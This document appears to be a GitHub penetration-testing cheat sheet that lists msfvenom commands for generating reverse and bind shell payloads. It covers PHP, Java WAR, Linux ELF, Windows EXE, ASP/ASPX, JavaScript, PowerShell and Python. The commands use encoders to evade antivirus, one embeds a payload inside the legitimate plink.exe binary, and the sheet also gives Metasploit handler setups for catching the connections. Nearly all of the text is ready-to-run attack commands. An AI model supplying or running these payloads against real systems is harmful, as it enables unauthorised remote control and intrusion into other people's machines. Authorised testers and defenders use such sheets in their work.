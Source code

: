 # MSFVenom Payloads 

<h1 align="center">
  <a href="https://github.com/kraloveckey/venom/penetration-testing"><img src="../images/img/hack-logo.png" width=150 height=140 lt="Cyber Cheat Sheet"></a>
</h1>

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/kraloveckey)

---

```shell
$ msfconsole -q
```

### PHP reverse shell  
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php```

### Java WAR reverse shell  
```msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war```

### Linux bind shell  
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai```

### Linux reverse shell
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o pay```

``` msfconsole -q
>> use payload/linux/x86/shell_reverse_tcp
>> set LHOST 10.10.10.10
>> exploit
```

### Linux FreeBSD reverse shell  
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf```

### Linux C reverse shell  
```msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c```

### Windows non staged reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe```

### Windows Staged (Meterpreter) reverse shell  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe```

### Windows Python reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

### Windows ASP reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp```

### Windows ASPX reverse shell
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx```

### Windows JavaScript reverse shell with nops  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18```

### Windows Powershell reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

### Windows reverse shell excluding bad characters  
```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai```

### Windows x64 bit reverse shell  
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe```

or

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 -f exe -o shell.exe```

``` 
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4443
run
```

### Windows reverse shell embedded into plink  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```
